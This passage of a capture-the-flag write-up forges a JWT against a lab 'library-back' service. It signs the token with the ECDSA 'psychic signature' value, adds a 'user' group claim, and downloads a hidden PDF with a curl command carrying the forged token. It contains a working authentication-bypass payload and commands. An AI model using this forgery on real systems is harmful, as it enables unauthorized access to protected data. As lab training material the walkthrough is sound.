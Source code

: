 - Header: `{"typ": "JWT", "alg": "ES256"}` -> `eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9`
- Payload: `{"sub": "hydra", "iss": "library-back", "groups": [""], "exp": 2000000000, "iat": 1000000000, "jti": "a-123"}` -> `eyJzdWIiOiAiaHlkcmEiLCAiaXNzIjogImxpYnJhcnktYmFjayIsICJncm91cHMiOiBbIiJdLCAiZXhwIjogMjAwMDAwMDAwMCwgImlhdCI6IDEwMDAwMDAwMDAsICJqdGkiOiAiYS0xMjMifQ`

Now, the signature part of the JWT.

First, if we try an invalid signature, it results in a `401 Unauthorized` response.

![Library Back-End Invalid Token](library_backend_invalid_token.webp){: width="1000" height="500" }

But using the `psychic signature` payload (`MAYCAQACAQA`) as the signature for our token results in a `403 Forbidden` response.

This indicates that our token works, but we are likely missing a valid claim.

After many trials and errors, we succeeded by adding `user` to the groups.

- Header: `{"typ": "JWT", "alg": "ES256"}` -> `eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9`
- Payload: `{"sub": "hydra", "iss": "library-back", "groups": ["user"], "exp": 2000000000, "iat": 1000000000, "jti": "a-123"}` -> `eyJzdWIiOiAiaHlkcmEiLCAiaXNzIjogImxpYnJhcnktYmFjayIsICJncm91cHMiOiBbInVzZXIiXSwgImV4cCI6IDIwMDAwMDAwMDAsICJpYXQiOiAxMDAwMDAwMDAwLCAianRpIjogImEtMTIzIn0`
- Signature: `MAYCAQACAQA`

Creating a token with these, we successfully authenticate and can list the documents.

![Library Back-End Valid Token](library_backend_valid_token.webp){: width="1000" height="500" }

With a valid token, listing the hidden files belonging to the user reveals `specs.pdf`.

![Library Back-End Hydras Hidden Files Two](library_backend_hydras_hidden_files2.webp){: width="1000" height="500" }

Using `curl` with `proxychains`, we can download the file as follows:

```console
$ proxychains -q curl -s 'http://library-back:8080/documents/download/specs.pdf' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJFUzI1NiJ9.eyJzdWIiOiAiaHlkcmEiLCAiaXNzIjogImxpYnJhcnktYmFjayIsICJncm91cHMiOiBbInVzZXIiXSwgImV4cCI6IDIwMDAwMDAwMDAsICJpYXQiOiAxMDAwMDAwMDAwLCAianRpIjogImEtMTIzIn0.MAYCAQACAQA' -o specs.pdf
```
{: .wrap }

Opening the `PDF` does not reveal the flag, but using `pdftotext` to extract all the text from the `PDF`, we find the third flag along with a fake one.

```console
$ pdftotext specs.pdf specs.txt

$ grep 'THM' specs.txt
THM{[REDACTED]}
The flag for today is THM{This_is_not_the_real_flag_try_again}
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>